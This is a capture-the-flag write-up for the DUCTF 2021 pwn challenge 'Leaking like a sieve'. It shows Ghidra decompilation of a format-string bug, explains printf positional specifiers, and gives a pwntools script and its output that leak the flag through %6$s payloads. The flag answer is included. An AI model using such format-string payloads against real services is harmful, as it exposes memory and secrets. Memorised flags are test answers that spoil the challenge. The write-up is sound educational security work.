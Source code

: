 # Leaking like a sieve

## Category
pwn

## Points
Dynamically allocated starting at 500, ending at 100

## Description
This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?

Author: xXl33t_h@x0rXx

`nc pwn-2021.duc.tf 31918`

Files: `hellothere`

## Keywords
pwntools, Ghidra, printf

## Notes
Calling the server asked for our name, and then echoed it back at us. It looked like this would go on forever, so I hit Ctrl-C to stop it:
```
$ nc pwn-2021.duc.tf 31918
What is your name?
Fred

Hello there, Fred

What is your name?
Jim

Hello there, Jim

What is your name?
^C
```

I opened the executable in Ghidra, and looked at the `main()` function:
```c
void main(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [32];
  char local_38 [40];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  buffer_init();
  __stream = fopen("./flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts(
        "The flag file isn\'t loading. Please contact an organiser if you are running this on the shell server."
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_38,0x20,__stream);
  do {
    puts("What is your name?");
    fgets(local_58,0x20,stdin);
    printf("\nHello there, ");
    printf(local_58);
    putchar(10);
  } while( true );
}
```

Here we can see two arrays - `local_58` and `local_38`. The user's input is stored in `local_58`. Since it uses `fgets()` to get the user input, it would be difficult to overflow this buffer, and as the flag is loaded into `local_38`, we don't want to overwrite that!

One thing we can see is that the buffer is passed to `printf()` without a format string. A usual call to `printf` would be something like: `printf("%d\n", x);` where the value of `x` would replace the `%d` in the format string (`%d` is a placeholder for a signed decimal integer). If we didn't specify `x`, `printf()` would try to fulfil its format specifiers from memory.

As there is no format string when our name is printed out, we can specify one in our input, and this can expose items on the stack to us for reading and even writing to.

I have [some notes on printf()](../General-Notes/printf.md), but this is a relatively simple exploit. We simply want to read a string from the stack. `%s` is used to treat parameters as strings, so we can just try printing strings from various positions in the stack and see if it is our flag.

In `printf()`, we can change which parameter applies to a format string with `%n$`. For example:
```c
  printf("%3$d, %2$d, %1$d\n", 7, 8, 9);
```
would output:
```
9, 8, 7
```

So by specifying our format specifier of `%n$s` and having no parameters, we can print out any strings in various memory locations. By putting this in a loop, we can plough through memory printing out strings.

> *Note*: various items on the stack may not be printable strings, and may crash the program. If you get a segmentation fault, just try another location

I wrote a Python script with `pwntools` to test this:
```python
from pwn import *

# 10 locations is probably enough for this test
for i in range(1, 11):
  print(f"Attempt with: {i}")

  # Test against the server
  p = remote('pwn-2021.duc.tf', 31918)

  # Get the question and print it
  line = p.recvline()
  print(line)

  # Create our string to output strings from memory
  send_str = f"%{i}$s"
  print(f"Sending {send_str}")
  p.sendline(send_str)

  # Output whatever we get back
  line = p.recv()
  print(line)

  # Close the connection and restart, as we may have had a
  # segmentation fault
  p.close()
```

Running this against the server gives us the output:
```
$ python3 get_flag.py 
Attempt with: 1
b'What is your name?\n'
Sending %1$s
b'\nHello there, \nHello there, \n\nWhat is your name?\n'
Attempt with: 2
b'What is your name?\n'
Sending %2$s
b'\nHello there, \n\nWhat is your name?\n'
Attempt with: 3
b'What is your name?\n'
Sending %3$s
b'\nHello there, (null)\n\nWhat is your name?\n'
Attempt with: 4
b'What is your name?\n'
Sending %4$s
b'\nHello there, '
Attempt with: 5
b'What is your name?\n'
Sending %5$s
b'\nHello there, \xc0\x94\xab\xder\x7f\n\nWhat is your name?\n'
Attempt with: 6
b'What is your name?\n'
Sending %6$s
b'\nHello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}\n\nWhat is your name?\n'
Attempt with: 7
b'What is your name?\n'
Sending %7$s
b'\nHello there, \x98$\xad\xfb\n\nWhat is your name?\n'
Attempt with: 8
b'What is your name?\n'
Sending %8$s
b'\nHello there, '
Attempt with: 9
b'What is your name?\n'
Sending %9$s
b'\nHello there, '
Attempt with: 10
b'What is your name?\n'
Sending %10$s
b'\nHello there, '
```

We can see when we send `%6$s` we get the flag!

We can get the same result manually, now we know the location, by answering `%6$s` to the question:
```
$ nc pwn-2021.duc.tf 31918
What is your name?
%6$s

Hello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}

What is your name?
^C
```

